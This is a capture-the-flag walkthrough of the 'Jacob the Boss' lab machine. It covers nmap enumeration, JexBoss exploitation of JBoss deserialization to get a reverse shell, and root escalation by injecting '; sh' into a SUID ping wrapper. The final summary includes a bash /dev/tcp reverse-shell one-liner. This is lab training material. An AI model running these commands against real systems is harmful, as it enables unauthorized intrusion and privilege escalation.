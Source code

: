 # Jacob the Boss

##### Difficulty: [ Medium ]

**Tags:** `Linux`,  `nmap`,  `Insecure Deserialization`,  `Java Serialization`,  `JBoss`,  `JexBoss`

---

##### Written: 15/01/2022

##### IP address: 10.10.129.18

---

### [ Set Up ]

The room tells us to add `jacobtheboss.box` to our /etc/hosts file:

<img style="float: left;" src="screenshots/screenshot1.png">

---

### [ user.txt ]

Let's begin with a full nmap scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.129.18
```

**Results:**

```
PORT      STATE SERVICE      REASON         VERSION
22/tcp    open  ssh          syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
[REDACTED]
80/tcp    open  http         syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20
|_http-title: My first blog
111/tcp   open  rpcbind      syn-ack ttl 61 2-4 (RPC #100000)
[REDACTED]
1090/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1098/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
1099/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
[REDACTED]
3306/tcp  open  mysql        syn-ack ttl 61 MariaDB (unauthorized)
3873/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4444/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
4445/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4446/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4457/tcp  open  tandem-print syn-ack ttl 61 Sharp printer tandem printing
4712/tcp  open  msdtc        syn-ack ttl 61 Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?  syn-ack ttl 61
[REDACTED]
8009/tcp  open  ajp13        syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http         syn-ack ttl 61 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss&trade;
8083/tcp  open  http         syn-ack ttl 61 JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
36592/tcp open  java-rmi     syn-ack ttl 61 Java RMI
37259/tcp open  unknown      syn-ack ttl 61
38292/tcp open  landesk-cba? syn-ack ttl 61
```

It looks like there are a whole slew of ports open. What really interests me though, are ports: **22 (SSH)**, **80 (HTTP)**, **8080 (HTTP)** and **8083 (JBOSS)**

Let's first visit `http://jacobtheboss.box`:

<img style="float: left;" src="screenshots/screenshot2.png">

We have a blog page powered by Dotclear (https://dotclear.org).

I decided to skip enumerating this website first as there was something else that caught my attention. I noticed that **JBoss** was running on the target machine (port 8083)!

---

*Boss application server is an open-source platform, developed by Red Hat, used for implementing Java applications and a wide variety of other software applications.*

---

From past experiences, I know that certain versions of JBoss are susceptible to **Java deserialization** vulnerabilities. These vulnerabilities allow unauthenticated attackers to achieve remote code execution *(Read more here: https://www.synopsys.com/blogs/software-security/mitigate-java-deserialization-vulnerability-jboss/)*.

In order for us to exploit these vulnerabilities, we need to have the **Apache Tomcat/Coyote JSP engine** (port 8080) and **JBoss** (port 8083) services running.

Next, I did some research online and found a really nifty tool called **JexBoss** (https://github.com/joaomatosf/jexboss). This tool automatically scans for and exploit vulnerabilities in the JBoss application server. Let's use it on our target machine:

```
python jexboss.py -u http://10.10.129.18:8080 
```

<img style="float: left;" src="screenshots/screenshot3.png">

We can see that JexBoss has managed to find 3 vulnerabilities with the JBoss server: **web-console**, **jmx-console**, **JMXInvokerServlet**

It asks if we would like to run an automated exploitation via the web-console.

Upon doing so, it will automatically try to set up a reverse shell for us:

<img style="float: left;" src="screenshots/screenshot4.png">

Fortunately, the exploit worked and our reverse shell was successfully opened:

<img style="float: left;" src="screenshots/screenshot5.png">

Now that we're in, we can obtain **user.txt** from jacob's home directory:

<img style="float: left;" src="screenshots/screenshot6.png">

---

### [ root.txt ]

Now let's figure out a way to escalate our privileges.

I first looked around the file system but was unable to find any interesting files. There was also only 1 non-root user on the machine (jacob), so we also can't move laterally to other accounts.

Next, I searched for files with their **SUID-bit** set:

```
find / -type f -perm /u=s 2>/dev/null
```

<img style="float: left;" src="screenshots/screenshot7.png">

I noticed an interesting binary called `pingsys`.

By the name, I assumed that it ran like `ping`. Let's test it out:

```
pingsys 127.0.0.1
```

<img style="float: left;" src="screenshots/screenshot8.png">

Yep, it functions exactly like `ping`!

I then used `strings` to analyze this binary in greater detail:

<img style="float: left;" src="screenshots/screenshot9.png">

We can see that `pingsys` actually appends the user input (IP address) to the `ping` command directly. 

This is a huge vulnerability as we can exploit this to run other commands on the shell by using `;` as a delimiter. Since `pingsys` is run as root, our commands run will also be privileged.

We'll run `pingsys` like such:

``` 
pingsys '127.0.0.1; sh'
```

Now during execution, `pingsys` will append our input to `ping`, resulting in the following command being run on the shell:

```
ping -c 4 127.0.0.1; sh
```

Because of the delimiter `;`, after `ping` has finished running, the second command `sh` will be run, which will open a shell as root:

<img style="float: left;" src="screenshots/screenshot10.png">

We've successfully escalated our privileges! 

We can now obtain **root.txt** from /root:

<img style="float: left;" src="screenshots/screenshot11.png">















1. use jexboss with any vulnerability
2. Open reverse shell

```
bash -i >& /dev/tcp/10.4.6.205/4444 0>&1
```

3. Upgrade to interactive shell
4. find suid-bit set files: pingsys
5. use strings on file
6. Notice that user input is directly appended to 'ping' command
7. Simple input '127.0.0.1; sh'
